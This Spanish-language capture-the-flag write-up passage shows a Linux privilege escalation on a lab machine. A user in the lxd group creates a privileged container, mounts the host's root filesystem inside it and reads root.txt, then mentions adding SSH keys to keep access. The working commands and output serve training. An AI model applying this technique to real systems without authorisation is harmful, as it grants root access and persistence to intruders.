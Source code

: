 #### Alternativa 2

Siendo el usuario **earlyp**, puedo ver que pertenezco al grupo **lxd**.

```
earlyp@codeshield:~$ id
uid=1000(earlyp) gid=1000(earlyp) groups=1000(earlyp),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd)
```

En [Hacktricks lxc/lxd](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation#with-internet) se puede acceder a todo el sistema como usuario **root**.

Antes de nada es necesario ejecutar el siguiente comando. Con todos los valores por defecto funciona bien.
```
earlyp@codeshield:~$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
Name of the storage backend to use (cephobject, dir, lvm, zfs, btrfs, ceph) [default=zfs]: 
Create a new ZFS pool? (yes/no) [default=yes]: 
Would you like to use an existing empty block device (e.g. a disk or partition)? (yes/no) [default=no]: 
Size in GiB of the new loop device (1GiB minimum) [default=9GiB]: 
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new local network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
Would you like the LXD server to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes]: 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 
earlyp@codeshield:~$
```

Ahora sí, sigo los pasos descritos en **Hacktricks**.

```
earlyp@codeshield:~$ lxc init ubuntu:16.04 test -c security.privileged=true
Creating test
earlyp@codeshield:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true
Device whatever added to test
earlyp@codeshield:~$ lxc start test
earlyp@codeshield:~$ lxc exec test bash
root@test:~# cd /mnt/root/root/
root@test:/mnt/root/root# ls
cowrie  root.txt  snap
root@test:/mnt/root/root#
```

Como se puede ver, tengo acceso a **root.txt**. Si mantener el acceso, bastaría con añadir un par de claves al directorio **.ssh**.

Muchas gracias a **eMVee** por esta máquina.


